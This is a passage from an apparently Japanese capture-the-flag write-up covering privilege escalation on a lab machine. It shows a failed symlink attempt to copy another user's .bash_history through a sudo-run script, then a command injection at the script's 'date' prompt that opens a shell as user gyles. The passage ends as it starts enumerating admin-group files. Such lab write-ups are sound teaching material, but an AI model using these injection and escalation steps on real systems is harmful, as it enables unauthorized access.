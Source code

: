 cp が相対パスだが、env_reset設定なのでPATHのexportは効果がない。

/var/stats/stats.txt をシンボリックリンクにして、.bash_history をコピーさせればよいと考えた。

```shell
dale@TEAM:/var/stats$ rm ./stats.txt

dale@TEAM:/var/stats$ ln -s /home/gyles/.bash_history ./stats.txt

dale@TEAM:/var/stats$ sudo  --user=gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: aaa
Enter 'date' to timestamp the file: bbb
The Date is Stats have been backed up

dale@TEAM:/var/stats$ ls -al
total 24
drwxrwxrwx  2 root  root  4096 Mar 15 03:45 .
drwxr-xr-x 15 root  root  4096 Jan 15  2021 ..
-rw-------  1 gyles gyles 5643 Mar 15 03:45 stats-2025-03-15-03-45.bak

dale@TEAM:/var/stats$ cat stats-2025-03-15-03-45.bak
cat: stats-2025-03-15-03-45.bak: Permission denied
```

パーミッションがそのままコピーされたため失敗。

```text
$error 2>/dev/null
```

この部分はコマンドインジェクションが効くかもしれない。

```shell
dale@TEAM:/var/stats$ sudo  --user=gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: aaa
Enter 'date' to timestamp the file: bash
The Date is whoami
gyles
```

gylesに昇格成功。

## 権限昇格２

adminグループのファイル

```shell
id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)

find / -group admin -type f 2>/dev/null
/usr/local/bin/main_backup.sh
```
